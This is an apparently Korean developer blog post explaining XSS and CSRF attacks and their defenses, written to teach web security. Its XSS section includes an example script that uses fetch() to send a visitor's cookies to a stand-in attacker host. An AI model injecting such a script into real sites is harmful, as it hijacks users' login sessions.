


## 믿는 도끼에 발등 찍힌다 (Web Vulnerabilities)

웹 개발을 하다 보면 보안 관련 이슈에서 항상 빠지지 않고 등장하는 두 가지 용어가 있다.
바로 <b>XSS(Cross Site Scripting)</b>와 <b>CSRF(Cross Site Request Forgery)</b>다.

이름도 비슷하고, 뭔가 나쁜 짓을 한다는 것도 알겠는데 정확히 뭐가 다른 걸까?
쉽게 말해 XSS는 <b>"자바스크립트를 몰래 실행시키는 것"</b>이고, CSRF는 <b>"사용자 몰래 엄한 짓을 시키는 것"</b>이다.

이 글은 웹 개발자라면 반드시 막아야 할 이 두 가지 공격의 <b>동작 원리</b>와 <b>차이점</b>에 대해 정리한 글이다.

### 1. XSS (Cross Site Scripting): "너의 브라우저에서 내 코드를 실행하겠다"
XSS는 공격자가 웹 사이트에 <b>악성 스크립트(JavaScript)를 주입</b>하는 공격이다.
원래 웹 페이지는 개발자가 작성한 코드만 실행되어야 하는데, 게시판이나 댓글 같은 곳에 해커가 심어둔 코드가 실행되게 만드는 것이다.

- **상황**: 해커가 게시판 댓글에 `<script>` 태그를 몰래 넣어서 글을 올렸다.
- **피해**: 다른 사용자가 그 글을 읽는 순간, 브라우저는 그게 악성 코드인지 모르고 **그냥 실행해버린다.**

```javascript
// 해커가 게시판에 작성한 내용
<script>
  // 사용자의 쿠키(로그인 정보)를 해커 서버로 전송해버림
  fetch('https://hacker-server.com/steal?cookie=' + document.cookie);
</script>
```

이게 왜 무서운가? 자바스크립트로 할 수 있는 모든 짓을 다 할 수 있기 때문이다.
로그인 세션(쿠키)을 탈취하거나, 가짜 로그인 창을 띄워서 비밀번호를 입력하게 만들 수도 있다. <b>사용자는 그냥 웹 사이트를 보고 있었을 뿐인데 정보를 다 털리게 된다.</b>

### 2. CSRF (Cross Site Request Forgery): "너의 권한으로 엉뚱한 짓을 시키겠다"
XSS가 사용자의 정보를 빼가는 느낌이라면, CSRF는 사용자의 **권한을 도용**해서 특정 동작을 실행시키는 공격이다.
이 공격이 성립하려면 **사용자가 이미 로그인된 상태**여야 한다.

- **상황**: 사용자가 은행 사이트에 로그인된 상태로, 해커가 만든 이상한 사이트(또는 이메일)를 클릭했다.
- **피해**: 해커의 사이트에는 은행 서버로 "내 돈을 해커 계좌로 이체해라"라는 요청을 보내는 코드가 숨겨져 있다. 브라우저는 **사용자의 로그인 쿠키를 자동으로 포함해서 요청**을 보내기 때문에, 은행 서버는 이걸 사용자가 보낸 정당한 요청으로 착각하고 처리해버린다.

```html
<!-- 해커가 보낸 이메일 속에 숨겨진 이미지 태그 -->
<!-- 이미지를 불러오려고 시도하지만, 실제로는 송금 요청을 보낸다 -->

```

사용자는 이미지를 보려고 했을 뿐인데(혹은 보이지도 않았는데), 통장에서 돈이 빠져나가는 끔찍한 상황이 발생한다.

### 3. 한눈에 보는 동작 과정 비교
두 공격 방식이 어떻게 다른지 그림으로 살펴보자.

#### 1. XSS 공격 흐름도

- **XSS**: 공격의 핵심은 <b>스크립트 실행</b>이다. 사용자의 브라우저를 조종하는 것이 목적이다.

#### 2. CSRF 공격 흐름도


- **CSRF**: 공격의 핵심은 <b>요청 위조</b>다. 사용자의 권한(쿠키/세션)을 이용해 서버를 속이는 것이 목적이다.

### 4. 어떻게 막아야 할까?
이 두 공격은 웹의 역사와 함께해 온 만큼 방어법도 잘 정립되어 있다.

1.  **XSS 방어**:
    *   **Input Sanitization**: 사용자가 입력한 데이터에 스크립트가 포함되어 있는지 검사하고, `<`를 `&lt;` 처럼 문자로 바꿔버린다(Escaping).
    *   **React/Vue**: 최신 프레임워크들은 기본적으로 렌더링 시 스크립트를 문자로 취급해서 방어해준다. (단, `dangerouslySetInnerHTML` 같은 건 쓰지 말자)

2.  **CSRF 방어**:
    *   **CSRF Token**: 서버가 폼을 내려줄 때 '임시 비밀번호(Token)'를 같이 준다. 요청이 들어올 때 이 토큰이 없으면 거절한다. 해커는 이 토큰 값을 알 수 없어서 공격에 실패한다.
    *   **SameSite Cookie**: 쿠키 설정에 `SameSite=Strict`나 `Lax`를 주면, 타 사이트에서 요청을 보낼 때 쿠키가 따라가지 않게 막을 수 있다.

### 5. 핵심 요약
보안은 <b>"설마 이러겠어?"</b> 하는 곳에서 뚫린다. 개발자는 항상 사용자의 입력값을 의심해야 한다.

- **XSS**: **스크립트 주입 공격**. 게시판에 이상한 코드를 심어서, 글을 보는 사람의 정보를 털어간다. (입력값 검증으로 방어)
- **CSRF**: **요청 위조 공격**. 로그인된 사용자를 낚아서, 사용자 몰래 결제나 비밀번호 변경을 시킨다. (CSRF 토큰으로 방어)

---

<div class="flex items-center gap-2"><svg class="w-10 h-10 text-gray-800 dark:text-gray-200" fill="none" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24"><path d="M5 3H3v18h18V3H5zm0 2h14v14H5V5zm4 7H7v2h2v2h2v-2h2v-2h2v-2h2V8h-2v2h-2v2h-2v2H9v-2z" fill="currentColor"/></svg><span class="font-bold text-2xl">글 요약</span></div>

- **XSS (Cross Site Scripting)**: 클라이언트(브라우저)에서 악성 스크립트가 실행되는 공격이다.
- **CSRF (Cross Site Request Forgery)**: 서버에 사용자의 권한을 도용하여 원치 않는 요청을 보내는 공격이다.
- **차이점**: XSS는 **정보 탈취**가 주 목적이고, CSRF는 **특정 행위 유발**이 주 목적이다.
- **방어**: 입력값은 무조건 의심하고(Sanitize), 중요한 요청에는 검증 토큰(CSRF Token)을 사용해야 한다.